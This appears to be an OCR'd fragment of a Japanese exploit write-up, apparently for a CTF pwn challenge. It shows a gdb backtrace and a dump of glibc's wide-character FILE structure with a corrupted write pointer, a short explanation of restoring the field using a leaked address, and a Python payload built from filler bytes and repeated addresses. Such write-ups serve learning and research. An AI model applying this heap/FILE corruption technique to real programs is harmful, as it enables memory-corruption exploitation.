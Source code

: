 ```
    format=format@entry=0x55e2c0c3e020 L"\x1f195\x1f4d6\x1f193\x1f6d1\x2753", args=args@entry=0x7ffc101b4480) at vfprintf.c:2343
#9  0x00007f3853dd10fe in _IO_vfwprintf (s=0x7f3854155760 <_IO_2_1_stdout_>, format=0x55e2c0c3e020 L"\x1f195\x1f4d6\x1f193\x1f6d1\x2753", 
    ap=ap@entry=0x7ffc101b4480) at vfprintf.c:1301
#10 0x00007f3853e9c8dc in __wprintf_chk (flag=0x1, format=<optimized out>) at wprintf_chk.c:36
#11 0x000055e2c0c3da48 in ?? ()
#12 0x00007f3853d8ab97 in __libc_start_main (main=0x55e2c0c3d9d0, argc=0x1, argv=0x7ffc101b4678, init=<optimized out>, fini=<optimized out>, 
    rtld_fini=<optimized out>, stack_end=0x7ffc101b4668) at ../csu/libc-start.c:310
#13 0x000055e2c0c3db6a in ?? ()
gdb-peda$  p _IO_wide_data_1
$1 = {
  _IO_read_ptr = 0x7f38541549e8 <_IO_wide_data_1+296> L"\x1f195", 
  _IO_read_end = 0x7f38541549e8 <_IO_wide_data_1+296> L"\x1f195", 
  _IO_read_base = 0x7f38541549e8 <_IO_wide_data_1+296> L"\x1f195", 
  _IO_write_base = 0x7f3846464646 <error: Cannot access memory at address 0x7f3846464646>, 
  _IO_write_ptr = 0x7f38541549ec <_IO_wide_data_1+300> L"", 
  _IO_write_end = 0x7f38541549e8 <_IO_wide_data_1+296> L"\x1f195", 
  _IO_buf_base = 0x7f38541549e8 <_IO_wide_data_1+296> L"\x1f195", 
  _IO_buf_end = 0x7f38541549ec <_IO_wide_data_1+300> L"", 
  _IO_save_base = 0x0, 
  _IO_backup_base = 0x0, 
  _IO_save_end = 0x0, 
  _IO_state = {
    __count = 0x0, 
    __value = {
      __wch = 0x0, 
      __wchb = "\000\000\000"
    }
  }, 
  _IO_last_state = {
    __count = 0x0, 
    __value = {
      __wch = 0x0, 
      __wchb = "\000\000\000"
    }
  }, 
  _codecvt = {
    __codecvt_destr = 0x0, 
    __codecvt_do_out = 0x7f3853defdb0 <do_out>, 
    __codecvt_do_unshift = 0x7f3853defcd0 <do_unshift>, 
    __codecvt_do_in = 0x7f3853defbe0 <do_in>, 
    __codecvt_do_encoding = 0x7f3853defba0 <do_encoding>, 
    __codecvt_do_always_noconv = 0x7f3853defbc0 <do_always_noconv>, 
    __codecvt_do_length = 0x7f3853defeb0 <do_length>, 
    __codecvt_do_max_length = 0x7f3853defbd0 <do_max_length>, 
(cut)
```
要するに＿IO_wide_data_2の下の_IO_wide_data_1に伸びちゃって、
1の_IO_write_baseがイカれた値になっちゃって次の周で落ちるということ。これはリークもらってるから元の値で揃えてやったらいい。
```python
payload  = ''
payload += 'A'*4
payload += 'B'*4
payload += 'C'*4
payload += 'D'*4
payload += 'E'*4
payload += p64(IO_wide_data) * 8
payload += 'A'*4
payload += 'B'*4
payload += 'C'*4
payload += 'D'*4
```